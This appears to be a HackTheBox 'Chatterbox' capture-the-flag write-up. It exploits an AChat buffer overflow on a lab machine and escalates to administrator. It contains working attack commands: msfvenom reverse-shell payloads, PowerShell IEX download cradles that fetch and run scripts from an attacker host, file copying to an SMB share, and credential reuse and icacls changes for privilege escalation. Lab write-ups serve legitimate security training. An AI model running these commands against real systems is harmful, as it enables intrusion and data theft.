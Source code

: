 # HackTheBox - Chatterbox

### What I Learned

1. Can run different versions of python depending on what is needed (python3, python2.7)
2. Buffer Overflows require a lot of encoding work, but you can execute commands
3. If the usual files do not work, try downloading a privilege escalation tool like `/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1` OR `winPEAS`

<details>
  <summary><strong>Writeup Summary</strong></summary>
  Scan the machine and find an instance of achat running. Look on exploitdb and find an exploit for it. Run the MSFVenom command from the exploit and then upload it to the target machine.  
  From there, you have 2 ways to get a root shell

1. Create a variable to pass the variable and run commands as a different user and add a new credential, then pass the credential to a command that opens a powershell as the new user (root).
2. Check the Permissions of the files using Get-ACL in powershell. Find that Admin has access to the flag, but Alfred has ownership permissions. Use icacls to change the permissions and allow Alfred to read the file.
</details>
   <br>

## Writeup

Perform an nmap scan

Was supposed to find 2 out of the ordinary ports open on 9255 and 9256

- Scan those 2 ports
- `nmap -p 9255,9256 -sC -sV -oA nmap/targeted 10.129.53.27`

Machine is running an instance of `achat`

- Look for exploits involving achat
- Find 36025

Run the msfvenom command at the top of the exploit file with added host and port numbers to get the buffer

- `msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.209 LPORT=8585 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`

The payload is 15k bytes, much larger than what is allowed, so change the command to download a file from local

- Need double quotes and to escape them
- File extension doesn't matter
- `windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.209/specialfile.ipp')\""`

  - `msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.209/specialfile.ipp')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`

- BufferRegister=EAX - once the buffer overflow happens, that's where the actual jump call should actually be
  - So once the buffer overflow happens, EAX is pointing to the buffer after -b

Set a listener and a python server.
Run the command using

- `python2.7 36025.py`

Get a shell with the user `alfred`

## First way to Get a Shell

Version of windows running

- WINDOWS 7 PROFESSIONAL SERVICE PACK 1

Check for .dat files

- `Get-Childitem -Path C:\progra~1 -Filter \*.dat -Recurse -ErrorAction SilentlyContinue -Force`

Copy useful/interesting files over to Kali using an SMB share

- `net use \\<KALI_IP>\SHARE /user:User Pass`
- `copy <FILEPATH>/file.txt \\10.10.14.209\SHARE`

- C:\Windows\System32\com\comempty.dat
- C:\ProgramData\Microsoft\User Account Pictures
- C:\Boot

Look around for a bit, but don't find anything. Use a script to enumerate instead.

- `cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .`
- Get the powerUp file from Kali
  - `IEX(New-Object Net.WebClient).downloadString('http://10.10.14.209/PowerUp.ps1')`
    Run the PowerUp module
- Invoke-AllChecks

Don't get much information from PowerUp.
Alfred : Welcome1!

Create a variable to pass the variable and run commands as a different user

- `$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force`
  - `$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)`  
    Now pass the credential to a command
- `Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.209/revsh2.ps1')" -Credential $cred`

Now you have a shell as an admin

## Second way to get a shell

Check the Access Control List for the administrator and show them as a formatted list

- `Get-ACL administrator | Fl \*`
- Alfred has full control of strings in the administrator directory
  ![alt text](images/image.png)
  CD to the directory with the root file (Admin desktop)
  Check the root.txt file

- Only the admin has access to the file, BUT Alfred is the owner
- so edit the permissions
- `Get-ACL root.txt | Fl \*`
  ![alt text](images/image-1.png)
  Use icacls to change the permissions

- /e -> edit ACL
- /t -> change ACL of specified file
- /p -> user
- :F -> Full permission
- `icacls root.txt /t /e /p alfred:F`

Read the file and get the flag
